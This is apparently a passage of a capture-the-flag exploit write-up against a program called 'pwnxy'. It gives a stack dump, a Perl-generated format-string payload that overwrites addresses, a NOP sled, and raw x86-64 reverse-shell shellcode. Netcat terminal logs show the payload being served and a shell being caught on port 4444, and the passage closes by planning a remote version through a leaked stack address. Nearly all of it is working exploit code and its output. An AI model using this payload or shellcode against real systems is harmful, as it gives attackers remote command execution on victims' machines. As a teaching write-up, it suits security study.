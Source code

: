 ```
	0x7fffffffda80:	0x7839383125414141	0x43436e2438333025
	0x7fffffffda90:	0x3330257834323025	0x33302543436e2439
	0x7fffffffdaa0:	0x6e24303430257835	0x2578343532254343
	0x7fffffffdab0:	0x2543436e24313430	0x3234302578343532
	0x7fffffffdac0:	0x3632312543436e24	0x436e243334302578
	0x7fffffffdad0:	0x3025783732312543	0x322543436e243434
	0x7fffffffdae0:	0x2435343025783435	0x434343434343436e
	0x7fffffffdaf0:	0x0000000000602078	0x0000000000602079
	0x7fffffffdb00:	0x000000000060207a	0x000000000060207b
	0x7fffffffdb10:	0x000000000060207c	0x000000000060207d
	0x7fffffffdb20:	0x000000000060207e	0x000000000060207f
	0x7fffffffdb30:	0x9090909090909090	0x9090909090909090
	0x7fffffffdb40:	0x9090909090909090	0x9090909090909090
```
The nop sled starts from 0x7fffffffdb30. Let's say that the goal address is: 0x7fffffffdb40.
Adjust the values on the format string:
```
	Old: 0xc0	0xda	0xff	0xff	0xff	0x7f	0x00	0x00
	New: 0x40	0xdb	0xff	0xff	0xff	0x7f	0x00	0x00
```
```
	perl -e 'print "AAA%061x" .                                           \
	"%038\$nCC%153x"."%039\$nCC%034x"."%040\$nCC%254x"."%041\$nCC%254x".  \
	"%042\$nCC%126x"."%043\$nCC%127x"."%044\$nCC%254x"."%045\$nCCCCCCC".  \
	"\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00".\
	"\x90"x100 .                                                          \
	"\x31\xf6\xf7\xe6\xff\xc6\x6a\x02\x5f\x04\x29\x0f\x05\x50\x5f\x52\x52\xc7\x44\x24\x04\x80\xd3\xbd\x54\x66\xc7\x44\x24\x02\x11\x5c\xc6\x04\x24\x02\x54\x5e\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\x56\x5a\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05".\
	"A"x40'
```
___
Now it's time for the attack:
```
--------------- TERMINAL 1 ---------------
root@nogirl # perl -e 'print "our_buffer"' | nc -nvvl -p80
	Listening on [0.0.0.0] (family 0, port 80)

(we need root access to listen on port <1024)

--------------- TERMINAL 3 ---------------
ispo@nogirl ~ $ echo "GET http://ispo.ddns.net/"  | ./pwnxy 


--------------- TERMINAL 2 ---------------
ispo@nogirl ~ $ nc -nlvv -p 4444
	Listening on [0.0.0.0] (family 0, port 4444)
	Connection from [128.211.189.84] port 4444 [tcp] accepted (family 2, sport 54061)
	whoami
		ispo
```
___
The exploit works fine locally. Let's make it work remotely. In order to do that we have to leak 
somehow an address from the stack and calculate the address of the shellcode in the remote server.
But wait... we have already leaked an address!
```assembly
Breakpoint 2, 0x0000000000401026 in getpage ()
1: x/i $pc
=> 0x401026 <getpage+960>:	mov    -0x14(%rbp),%eax
(gdb) i r rbp rsp
```